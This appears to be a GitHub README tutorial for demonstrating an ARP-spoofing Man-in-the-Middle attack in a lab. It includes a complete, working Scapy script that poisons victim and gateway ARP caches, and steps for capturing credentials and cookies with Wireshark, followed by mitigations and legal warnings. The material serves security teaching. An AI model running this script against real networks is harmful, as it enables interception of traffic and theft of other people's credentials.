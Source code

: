 # Cybersecurity_MitM_Demo
How to demonstrate a Man-in-the-Middle (MitM) attack

Demonstrating a Man-in-the-Middle (MitM) attack simulation requires a controlled environment to ensure legality and safety. 
Here’s a step-by-step guide to set up and demonstrate a basic ARP spoofing MitM attack using Python and the Scapy library:

### Prerequisites
- **Scapy**: A powerful Python library used for network packet manipulation.
- **Two virtual machines** or devices on the same network: One acting as the victim and the other as the attacker.
- **Wireshark**: A network protocol analyser to capture and inspect network traffic.

### Setup

1. **Install Scapy:**
   - Install Scapy on your attacker machine using pip:

```sh
pip install scapy
```

2. **Set Up the Victim and Attacker Machines:**
   - Ensure both the victim and attacker machines are on the same network.
   - Note the IP addresses of both machines and the gateway/router.

### MitM Attack Simulation Script

```python
from scapy.all import *
import time

def get_mac(ip):
    """
    Get the MAC address of the specified IP
    """
    answered, unanswered = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip), timeout=2, retry=10)
    for sent, received in answered:
        return received.hwsrc
    return None

def spoof(target_ip, spoof_ip):
    """
    Spoof the target IP address pretending to be the spoof IP address
    """
    target_mac = get_mac(target_ip)
    if not target_mac:
        print(f"Could not find MAC address for IP {target_ip}")
        return
    packet = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    send(packet, verbose=False)

def restore(target_ip, spoof_ip):
    """
    Restore the network by reversing the ARP spoofing
    """
    target_mac = get_mac(target_ip)
    spoof_mac = get_mac(spoof_ip)
    packet = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip, hwsrc=spoof_mac)
    send(packet, count=4, verbose=False)

if __name__ == "__main__":
    target_ip = "VICTIM_IP"
    gateway_ip = "GATEWAY_IP"
    
    try:
        print("Starting ARP spoofing. Press Ctrl+C to stop...")
        while True:
            spoof(target_ip, gateway_ip)
            spoof(gateway_ip, target_ip)
            time.sleep(2)
    except KeyboardInterrupt:
        print("Stopping ARP spoofing and restoring network...")
        restore(target_ip, gateway_ip)
        restore(gateway_ip, target_ip)
        print("Network restored.")
```

### Steps to Demonstrate

1. **Modify the Script:**
   - Replace `VICTIM_IP` and `GATEWAY_IP` with the actual IP addresses of the victim machine and the gateway (router).

2. **Run the Script:**
   - Execute the script on the attacker machine with root/administrator privileges:

```sh
sudo python mitm_attack.py
```

3. **Start Capturing Traffic:**
   - On the victim machine, start browsing the internet or accessing network resources.
   - Use Wireshark on the attacker machine to capture and inspect network traffic. Apply a filter such as `http` to see unencrypted HTTP traffic.

### Explanation and Impact

- **ARP Spoofing:**
  - The attacker machine sends spoofed ARP packets to the victim and the gateway, making each believe the attacker is the other party.
  - This allows the attacker to intercept all traffic between the victim and the gateway.

- **Capturing Sensitive Data:**
  - Using Wireshark, demonstrate how the attacker can capture sensitive information such as login credentials, cookies, and other unencrypted data.

### Mitigation Techniques

1. **Use HTTPS:**
   - Encourage the use of HTTPS to encrypt traffic, preventing interception of sensitive data.

2. **Implement ARP Spoofing Detection Tools:**
   - Use tools like `arpwatch` or `arp-scan` to detect and prevent ARP spoofing on the network.

3. **Network Segmentation:**
   - Segment the network to limit the impact of ARP spoofing attacks.

### Important Notes

- **Legal and Ethical Considerations:**
  - Perform this demonstration only in a controlled environment where you have permission.
  - Never attempt ARP spoofing or any other attack on networks you do not own or have explicit permission to test.

